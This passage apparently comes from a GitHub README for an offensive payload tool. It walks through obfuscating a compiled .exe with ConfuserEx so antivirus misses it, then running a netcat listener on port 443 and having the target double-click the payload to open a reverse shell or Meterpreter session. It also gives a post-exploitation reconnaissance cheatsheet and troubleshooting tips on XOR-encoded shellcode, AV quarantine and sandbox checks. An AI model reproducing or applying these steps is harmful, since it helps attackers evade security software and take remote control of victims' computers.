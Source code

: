 #### Now Lets Obfuscate Using (ConfuserEx)
* Drag the fresh `.exe` into ConfuserEx  
* **Preset = Normal** → add ~10 random protections → **Protect**  
* The obfuscated binary appears in `/Confused/`.

> <img src="https://github.com/user-attachments/assets/eff08d19-8247-4bb8-a74d-772d3d12e4b5" width="600" />

### Go to settings Click the .exe listed and click +
> <img src="https://github.com/user-attachments/assets/568fc657-8f72-4223-8513-4393a8bd8f72" width="600" />

### Make it to Preset Normal and click +
`Add these in a random order it should be 10`
> <img src="https://github.com/user-attachments/assets/3cf413bf-11e2-4fde-b6ea-94c321807f9c" width="300" />

### Click `Done` Then Click `Protect`
> <img src="https://github.com/user-attachments/assets/d1a31619-389e-4ea1-8f3c-c42e185d8af9" width="600" />


## Run & Test
1. **Listener** (attacker):
   ```bash
   rlwrap -cAr nc -lvnp 443
   ```
2. **Target**: double‑click the obfuscated payload.  
3. **Success** → a shell or Meterpreter session connects back.

> **Tip:** use a high‑numbered port (e.g. 443, 8443) that the firewall allows.
> <img src="https://github.com/user-attachments/assets/c5b71f7e-f34f-4c52-a056-fb72cceaf702" width="600" />)


## Post‑exploitation Cheatsheet
```text
whoami
systeminfo
ipconfig /all
net users
net localgroup administrators
```

---

## Troubleshooting

| Issue | Fix |
|-------|-----|
| Payload deleted on save | Verify EXE is obfuscated **and** shell‑code is XOR‑encoded |
| No callback | Check IP/LPORT, outbound firewall, AV quarantine |
| Program exits instantly | Sandbox/timing checks triggered – comment them for lab use |
| ConfuserEx “resource not found” | Make sure you built **Release | x64** before obfuscation |

---
